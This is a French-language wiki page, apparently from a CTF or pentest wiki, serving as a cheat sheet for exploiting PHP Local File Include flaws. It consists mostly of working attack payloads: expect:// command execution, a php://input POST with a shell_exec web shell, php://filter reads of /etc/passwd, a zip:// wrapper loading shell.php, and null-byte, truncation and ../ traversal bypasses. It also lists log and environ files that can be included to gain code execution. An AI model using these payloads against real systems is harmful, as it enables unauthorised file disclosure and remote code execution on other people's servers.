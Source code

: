 ```yaml
---
title: Local File Include
permalink: /Local_File_Include/
---
```


# Local File Include

Une faille de type Local File Include (LFI) consiste à inclure un fichier local à partir d'une entrée utilisateur. Dans certains cas ceci permet d'accéder à des fichiers non situés dans le webroot voire d'executer du code.

PHP
---

### PHP Wrappers

Il y a plusieurs "Wrappers" en PHP qui peuvent être utilisés pour exploiter des LFI.

-   PHP expect wrapper (désactivé par défaut):

``` text
target.php?page=expect://ls
```

-   PHP input wrapper:

``` text
POST /target.php?page=php:/input&cmd=ls
[..]
Content-Length: 44

<?php echo shell_exec($_GET['cmd']);?>
```

-   PHP php://filter (permet d'inclure un fichier et l'encoder en base64. Ceci permet de lire du code PHP:

``` text
vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

-   PHP php://filter sans base64:

``` text
vuln.php?page=php://filter/resource=/etc/passwd
```

-   PHP ZIP Wrapper LFI (à condition d'avoir uploadé un zip contenant le payload). Le zip sera décompressé dans shell.php:

``` text
vuln.php?page=zip://path/to/file.zip%23shell.php
```

### Linux

Quelques fichiers utiles à inclure:

- /etc/passwd: utilisateurs locaux
- /proc/self/cmdline: indique la ligne de commande qui a été utilisée pour lancer le service

### Divers

Il est possible d'inclure certains fichiers qui peuvent contenir des entrées utilisateurs si on veut executer du code (ex: User-Agent, etc.):

-   /proc/self/environ
-   Logs Apache
-   Emails (on peut essayer d'énumerer les utilisateurs locaux avec VRFY)

Technique du Null byte (ne fonctionne pas sur les versions récentes de PHP:

``` text
vuln.php?page=/etc/passwd%00
vuln.php?page=/etc/passwd%2500
```

L'injection de loooongues valeurs peut permettre de bypasser certains filtres si on a des truncate:

``` text
vuln.php?page=/etc/passwd.................................................................................
vuln.php?page=../../../../../../../../../../../../../../../../../../../../etc/passwd
vuln.php?page=/etc/passwd/../../../../../../../../../../../../../../../../../../../..
```

## Références

- [LFI](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion)
- [Wrapper phar://](https://0x1337seichi.wordpress.com/2015/03/15/codgate-2015-ctf-quals-owlur-writeup-web-200/)
- [Les PATH truncations: The old one](https://www.dailysecurity.fr/les-path-truncations/)
